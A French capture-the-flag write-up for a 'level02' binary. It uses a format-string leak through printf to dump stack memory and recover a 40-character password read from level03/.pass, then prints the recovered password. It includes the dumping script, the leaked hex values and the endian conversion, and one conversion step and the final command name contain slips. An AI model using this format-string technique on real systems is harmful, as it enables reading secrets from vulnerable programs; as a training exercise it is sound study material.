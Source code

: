 Le binaire level02 ne contient qu'une fonction **main**.

Cette fonction appelle **open** de **"/home/users/level03/.pass"** suivi d'une comparaison menant à un **exit**, puis un **fread**.

Cela nous restreint dans notre utilisation de GDB, mais on sait que le **pass** est stocké quelque-part dans la **stack**.

Le programme lit 2 fois sur l'entrée standard via **fgets**.

La premiere string **login** est passée en premier argument à la fonction **printf**.

La deuxième string **passwd** est comparée au fichier **level03/.pass** et si la comparaison réussie le programme lance un **shell**.

On peut via le **script** ci dessous récupérer dans un fichier les valeurs stockées dans la **stack** de la fonction **main**:

<pre>
#!/bin/sh
IDX=0
while [ $IDX -lt 361 ]
do
echo $IDX >> /tmp/hexmap
(python -c "print '%$IDX\$lx ' + '\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  + '\n'") | ~/level02 | grep "access!" >> /tmp/hexmap   
IDX=$((IDX+1))
echo $IDX
done
</pre>

En regardant le fichier créé on trouve un zone mémoire contenant 40 caractères suivie d'un \0:

<pre>
%0$lx  does not have access!
7fffffffe4f0  does not have access!
0  does not have access!
0  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
7fffffffe6e8  does not have access!
1f7ff9a08  does not have access!
...
100000000  does not have access!
0  does not have access!
756e505234376848  does not have access!
45414a3561733951  does not have access!
377a7143574e6758  does not have access!
354a35686e475873  does not have access!
48336750664b394d  does not have access!
0  does not have access!
20786c24383225  does not have access!
...
</pre>

On peut essayer de traduire cette string de 40 char.

On doit inverser la position de chaque valeur dans chaque zone mémoire pour passer de little endian à big endian.
Puis convertir les valeurs de l'hexa vers la **table ascii**:

<pre>


	little endian	 => big endian		 => str	 	
1.	756e505234376848 => 4868373452506e75 => Hh74RPnu 
2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE 
3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7 
4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5 
5.	48336750664b394d => d4394b6650673348 => M9KfPg3H 
0 => length 40


passwd => Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H 
</pre>

En le testant: 
<pre>
./level03
"test"
"Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"
Greetings, test!
$>
</pre>